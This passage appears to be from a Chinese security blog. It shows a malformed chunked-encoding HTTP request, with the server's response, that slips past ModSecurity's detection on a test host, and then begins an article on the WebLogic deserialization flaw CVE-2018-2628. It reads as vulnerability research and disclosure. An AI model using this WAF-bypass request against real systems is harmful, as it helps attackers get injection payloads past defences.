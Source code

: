 因为sql.php脚本中返回了带有“root”的关键字，所以直接就被ModSecurity拦截了。这时我们改为发送畸形的分块数据包。

```
请求:
POST /sql.php?id=1 HTTP/1.1
Host: 10.10.10.10
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 16

3
123
1
0
(两个换行)


返回:
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.2.15 (CentOS) Server at 10.10.10.10 Port 80</address>
</body></html>
root 123456
========GET==========
Array
(
   [id] => 1
)
========POST==========
Array
(
)
```

通过两个测试可以发现使用畸形的分块数据包可以直接绕过ModSecurity的检测。这个问题我们在2017年4月已提交给ModSecurity官方，但是因为种种问题目前依然未修复。

***

## CVE-2018-2628 简单复现与分析

xxlegend 廖新喜 _2018-04-18_

### 综述

当地时间4月17日，北京时间4月18日凌晨，Oracle官方发布了4月份的关键补丁更新CPU（Critical Patch Update）,其中包含一个高危的Weblogic反序列化漏洞(CVE-2018-2628)，这个漏洞是我在去年11月份报给Oracle的，通过该漏洞，攻击者可以在未授权的情况下远程执行任意代码。
